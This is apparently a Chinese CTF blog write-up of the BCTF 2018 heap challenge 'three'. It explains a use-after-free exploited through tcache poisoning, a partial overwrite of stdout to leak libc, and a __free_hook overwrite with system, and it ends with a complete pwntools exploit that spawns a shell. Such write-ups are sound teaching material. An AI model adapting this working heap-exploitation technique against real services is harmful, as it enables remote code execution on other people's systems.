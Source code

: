 ```yaml
---
title: 'BCTF2018:three'
date: 2018-12-05 16:26:08
tags: pwn fengshui
layout: post
---
```

fengshui思路很重要...
<!--more-->
# strat
[附件][1]
简洁的一道题..主要考利用...咸鱼的我调了一个晚上加上办个下午没调出来
(后来反证自己走进了死胡同..)
最后改变风水思路...

# Analysis
* 主要功能有add,free,edit
* 限制是最多3个chunk可以被执行操作
* 可以选择清除不清除`array`上的指针
```python
➜  three checksec three 
[*] '/home/n132/Desktop/three/three'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

```
用的libc是2.27有tcache
漏洞点是uaf
# 利用
#也不太好讲..主要自己调一遍坑都跳一遍就差不多有点思路了

* 利用uaf控制tcache改写`stdout`#具体为啥在babytecache那篇博客中写过
* 继而改写free_hook为system
* free /bin/sh

fengshui:
```
* 一开始我傻逼的地尝试了控制0x70结尾的地方...做了半天做不出来
* 因为在改写完`stdout`后将会失去一个可以操作的指针...free不掉
* 两个指针要实现tcache atk 就要满足两者存在over lap 才可以改掉size
* 显然0x70不如0x50来的灵活...当时没用0x50是因为0x50的那个指针也是不能free的..
```

* 利用uaf控制`0x50`结尾的地址（目的是方便改size）
* 改`0x60`的size为`0x91`
* free 满tcache 获得一个`unsortedbin`
* `0x50`的tcache改到`0x91`上
* `partial write`指向`stdout`
* 改`stdout`去泄露libc
* free 0x60通过0x50改size和fd指针到`__free_hook`为`system`
* edit 2为`/bin/sh`
* free 2



# exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("choice:",str(c))
def add(c="\n"):
	cmd(1)
	p.sendafter("content:",c)
def edit(idx,data):
	cmd(2)
	p.sendlineafter("idx:",str(idx))
	p.sendafter("content:",data)
def free(idx,mode=0):
	cmd(3)
	p.sendlineafter("idx:",str(idx))
	if (mode==0):
		p.sendlineafter("(y/n):",'n')
	else:
		p.sendlineafter("(y/n):",'y')


p=process("./three",env={'LD_PRELOAD':'./libc.so.6'})
libc=ELF("./libc.so.6")
context.log_level='debug'
#init
for x in range(3):
	add(p64(0x21)*8);
free(2,1)
free(1,1)
free(0,1)
#
add()
add()
free(1,1)
free(0)
edit(0,'\x50')
add()

add(p64(0)+p64(0x91))

free(1,1)

for x in range(6):
	free(0)
edit(2,p64(0)+p64(0x51))
free(0)
edit(2,p64(0)+p64(0x91))
free(0,1)

edit(2,p64(0)+p64(0x51)+"\x60\x07\xdd")
add()
add(p64(0xfbad1800)+p64(0)*3+'\x00')

p.read(8)
base=u64(p.read(8))-(0x7ffff7dd18b0-0x00007ffff79e4000)
log.warning(hex(base))
libc.address=base
free(0,1)
edit(2,p64(0)+p64(0x41)+p64(libc.symbols['__free_hook']))
add()
free(0,1)
add(p64(libc.symbols['system']))
edit(2,"/bin/sh\x00")
cmd(3)
p.sendlineafter("idx:",'2')
p.sendline("clear")
p.interactive("nier>>>")
```


[1]:https://github.com/n132/Watermalon/tree/master/Bctf_2018/three